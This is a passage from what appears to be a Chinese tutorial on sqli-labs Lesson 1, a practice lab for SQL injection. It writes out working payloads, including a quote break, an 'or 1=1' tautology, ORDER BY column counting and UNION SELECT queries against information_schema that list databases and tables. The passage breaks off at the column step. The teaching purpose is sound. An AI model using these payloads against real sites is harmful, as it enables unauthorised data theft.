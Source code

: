 下面以 **Less 1 GET-Error based-Single quotes-String** 为例分析:

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`id=1'` 返回

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```


`id=1' or 1=1 --+` 正常返回结果。

`id = 1' ORDER BY 3 --+` 正常返回结果。

`id = 1' ORDER BY 4 --+` 返回`Unknown column '4' in 'order clause'`， 判断 `user`表存在3列数据。

- 爆数据库

`id = -1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+`

```sql
SELECT * FROM users WhERE id = '-1' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata--+' LIMIT 0,1
```

![](/assets/images/move/1549195342935-7b56b398-2e05-4524-a2d3-62bdd69a6f90.png)

- 爆(security)数据表

`id=-1' union select 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='security' --+`

```sql
SELECT * FROM users WhERE id = '-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' --+' LIMIT 0,1
```

![](/assets/images/move/1549195726863-9927dde1-73e7-40e8-8949-232995945cdc.png)

- 爆(users)列
